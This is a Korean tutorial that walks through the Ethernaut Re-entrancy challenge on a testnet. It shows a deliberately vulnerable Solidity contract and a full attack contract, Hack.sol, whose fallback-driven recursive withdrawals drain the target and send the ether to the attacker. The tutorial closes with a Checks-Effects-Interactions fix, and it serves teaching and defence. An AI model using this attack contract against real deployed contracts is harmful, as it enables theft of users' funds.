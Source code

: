 문제 해설에 들어가기 전,  이번 포스팅은 이더넛 내에서 콘솔창과 상호작용을 할 줄 알고 기본적인 리믹스 및 메타마스크 사용법이 숙지되어 있다는 가정 하에 해설을 진행합니다.



## Re-entrancy Problem

이번 문제의 목표는 컨트랙트에 모인 funds를 탈취하는 것이다. 우선 힌트를 확인해보자

- 신뢰할 수 없는 컨트랙트에서는 예상치 못한 곳에서 코드가 실행된다
- Fallback 함수
- Throw/revert Bubbling
- 다른 컨트랙트로 공격하기
- 콘솔 창 활용하기



**The DAO Hack** 사건으로 널리 알려진 재진입성 공격을 이번 10단계에서 체험해보자.



### 코드 분석

```javascript
pragma solidity ^0.4.18;

contract Reentrance {

  mapping(address => uint) public balances; // 주소별로 금액을 관리
  // 기부를 받을 때, 호출되는 함수
  function donate(address _to) public payable {
    balances[_to] += msg.value;
  }
  // 누가 얼마나 기부를 했는지 체크하는 함수
  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }
  // 인출 함수
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  function() public payable {}
}
```

**donate** 함수를 통해서 외부로 부터 msg.value만큼 기부를 받는다. 이때, balances라는 mapping 구조를 만들어서 누가 얼마를 기부했는지를 주소별로 기부금액을 관리한다. 이때문에, **balanceOf **함수에서 누가 얼마를 기부했는지 확인이 가능하다. 마지막으로 **withdraw**함수가 있는데 이곳에 취약점이 존재한다. 첫번째 if 문에서 인출하려는 금액을 확인하고 두번째 if 문에서 폴백함수를 불러 amount만큼 금액을 인출하고 마지막으로 인출한 양(_amount)을 balances에서 차감한다.

즉, 외부 컨트랙트에서 withdraw 함수를 호출하면 수정된 balances의 기부금액이 차감되기 전이므로 인출이 몇 번이고 가능하다는 뜻이다. (아직 이해가 되지 않아도 괜찮다. 맨 아래 예방 할 수 있는 코드를 직접 실습해 본다면 감이 올 것이다.)

필자가 직접 작성한 코드보다 구글에서 돌아다니는 코드가 더 좋은 것 같아서 [인용](https://gist.github.com/pabloruiz55/9e3425880f084a3a3c28677224ab430d)했다. (주어진 코드를 어떻게 활용해야 하는지 모르겟다는 댓글에 대한 답변이 될 것 같다!)



---

#### Hack.sol

```javascript
contract Hack {
    address target;
    address owner;
   
    Reentrance re;
   
    function Hack(address _target) {	// target(Instance Address) 주소를 넣고 배포한다.
        target = _target;
        owner = msg.sender;	// 사실 필요 없지만, kill함수를 위해서 사용한다.
        re = Reentrance(target);
    }
    
    function attack() public payable {
        re.donate.value(0.1 ether)(this);	// 이것을 통해서 target에 기부를하고
        re.withdraw(0.1 ether);	// 기부한 금액만큼 인출한다
    }
   
    function() payable {
        re.withdraw(0.1 ether);
    }
    // ETH를 얼마나 가지고 있는지 조회할 수 있는 함수
    function ethBalance(address _who) public view returns(uint) {
      return _who.balance;
    }
    // kill 함수를 호출하면 Hack의 CA주소로 담긴 ETH가 owner의 주소로 이동한다. 
    function kill () {
        require(msg.sender == owner);
        selfdestruct(owner);
    }
}
```

우리는 **attack**함수를 통해서 target에 0.1이더를 기부하고 0.1이더를 이어서 인출하면 자동으로 폴백함수를 호출하기 때문에, 지속해서 인출을 시도 할 수 있다.



먼저 문제를 풀기 위해서 주어진 Instance address를 리믹스 브라우저에서 At Address로 불러오자



https://github.com/heuristicwave/TIL-about-Blockchain/blob/master/img/reentrance01.png?raw=true

Hack 컨트랙트에서, InstanceAddress의 ethBalance를 체크해보면 기본적으로 1이더가 들어있는 것을 확인할 수 있다. 이후, 리믹스 상단 Value에 0.1이더를 기입하고 attack을 하면 0.1이더를 기부하고 이어서 기부금을 다시 인출하는데 그때 Hack에 있는 폴백함수를 실행시켜서 지속적으로 0.1이더씩 인출하게 된다. Hack의 CA에 제대로 ETH가 들어와 있는지 확인해 보려면 ethBalance에 Hack의 주소를 넣고 호출하면, 아래와 같이 이더 금액이 표시된다.

https://github.com/heuristicwave/TIL-about-Blockchain/blob/master/img/reentrance02.png?raw=true

>필자의 경우, 1.1이더가 아니라 1.3이더가 있는 이유는 2번의 outofgas문제로 탈취하지 못한채 InstanceAddress에 2번 기부를 하였고 3번째 시도에 제대로 된 가스 계산을 통해서 전액을 탈취하는데 성공했다. 그러므로, attck 함수를 호출하는 경우 가스비를 잘 계산하여 함수를 호출하자!!



이후 Hack의 CA주소에 담긴 이더를 수금 하기 위해서 kill함수를 통해 소중한 이더를 나의 주소로 탈취하자.

 [1.3이더 가져오기](https://ropsten.etherscan.io/tx/0x3a335a244b29a19612f6302ce9d5b22e6f4a217352e41cf79ed7e6e7766cb348) 

https://github.com/heuristicwave/TIL-about-Blockchain/blob/master/img/reentrance03.png?raw=true



그렇다면, 우리는 위와 같은 재진입성 문제를 막기 위해서는 어떻게 코딩을 해야 할까? 

송금과 관련하여 안전한 코딩을 위해서는 `Condition - Effects - Interation` 패턴을 지닌 `pull형 payable`을 사용해야한다. 



### Condition - Effects - Interation

> - Condition
>
>   함수를 실행하는 조건을 확인하고 조건이 유효하지 않을 때는 처리를 중단
>
> - Effects
>
>   상태를 업데이트 (ex : 경매일 경우, 반환 금액 여기 손봐야함 적절한 예시로)
>
> - Interaction
>
>   다른 컨트랙트에 메시지를 보낸다 (ex : 입찰금)



CEI패턴을 지키기 위해서는 처음에 주어지 코드를 아래와 같이 수정하면 된다.

```javascript
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      
      balances[msg.sender] -= _amount;
      
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
    }
  }
```

직접 리믹스 자바스크립트 VM환경에서 수정된 코드를 배포하여 실험을 해보면 확실하게 알 수 있다.



그럼, 다음번에는 11단계 Elevator에서 만나요!
